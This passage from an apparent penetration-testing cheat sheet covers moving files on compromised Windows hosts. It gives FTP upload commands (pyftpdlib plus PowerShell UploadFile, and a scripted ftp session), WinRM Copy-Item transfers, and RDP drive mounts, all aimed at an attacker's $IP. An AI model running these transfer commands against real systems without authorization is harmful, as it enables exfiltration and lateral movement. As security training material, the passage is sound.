 ## <mark style="color:orange;">Upload using FTP</mark>

* Mount an FTP server on our machine to share files and download them on the target machine

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash">#On our machine
sudo pip install pyftpdlib #Install ftp server module
<strong>sudo python -m pyftpdlib --port 21 --write
</strong>
<strong>#On the target machine
</strong>PS\> (New-Object Net.WebClient).UploadFile('ftp://$IP/$fileName', '$pathToFile')
</code></pre>

* When not having an interactive terminal a script can be created

{% code overflow="wrap" lineNumbers="true" %}
```bash
PS\> echo open $IP > ftpcommand.txt
PS\> echo USER anonymous >> ftpcommand.txt
PS\> echo binary >> ftpcommand.txt
PS\> echo PUT $file >> ftpcommand.txt
PS\> echo bye >> ftpcommand.txt
PS\> ftp -v -n -s:ftpcommand.txt
```
{% endcode %}

## <mark style="color:orange;">Transfer between Windows hosts using Powershell remote session and WinRM</mark>

* When we have compromised a host and gained access to the _Administrator_ user or any user in the _Remote Management Users_ group

{% code overflow="wrap" lineNumbers="true" %}
```powershell
PS\> Test-NetConnection -ComputerName <target> -Port 5985 #Confirm WinRM is open
$Session = New-PSSession -ComputerName <target>
Copy-Item -Path <pathToFile> -ToSession $Session -Destination <destinationPath> #From our host to the target
Copy-Item -Path <pathToFile> -Destination <destinationPath> -FromSession $Session #From the target to our host
```
{% endcode %}

{% hint style="warning" %}
Here the usual $ symbols used to sign the things we have to change, are replaced by <> due to the use of this symbol as a reserved operator on PHP
{% endhint %}

## <mark style="color:orange;">Upload using the RDP protocol</mark>

* When can mount a local resource on the target RDP server

{% code overflow="wrap" lineNumbers="true" %}
```powershell
rdesktop $IP -d $domain -u $user -p '$password' -r disk:linux='$pathToFile'
#Alternative
xfreerdp /v:$IP /d:$domain /u:$user /p:'$password' /drive:linux,$pathToFile
cd \\tsclient\linux  #Access mounted directory
```
{% endcode %}
